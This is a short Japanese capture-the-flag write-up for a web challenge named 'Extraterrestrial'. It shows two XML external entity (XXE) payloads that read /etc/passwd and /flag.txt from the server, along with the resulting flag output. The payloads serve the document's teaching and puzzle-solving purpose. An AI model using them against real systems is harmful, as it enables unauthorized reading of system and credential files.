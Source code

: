 # Extraterrestrial

125pt (285 Solves)

```txt
Have you seen any aliens lately? Let us know!

The flag is at the start of the solar system.

Connect here: [url]
```

## 概要

![Extraterrestrial](./img/Extraterrestrial.png)

よくわからん入力欄。
`a`とか入力すると`Invalid document end`と怒られる。

問題名からしてXMLを入力するのだろう。

## 解

過去に解いた問題のxmlをコピペしてきて貼り付けたら`/etc/passwd`が抜けた。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY pass SYSTEM "/etc/passwd">
]>
<root>
  <content>&pass;</content>
</root>
```

問題文によると「スタート地点にflagがある」らしい。  
ルートディレクトリ直下で探してると、`flag.txt`があった。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ENTITY pass SYSTEM "/flag.txt">
]>
<root>
  <content>&pass;</content>
</root>
```

```txt
array(1) {
  ["pass"]=>
  string(38) "flag{extraterrestrial_extra_entities}
"
}
```
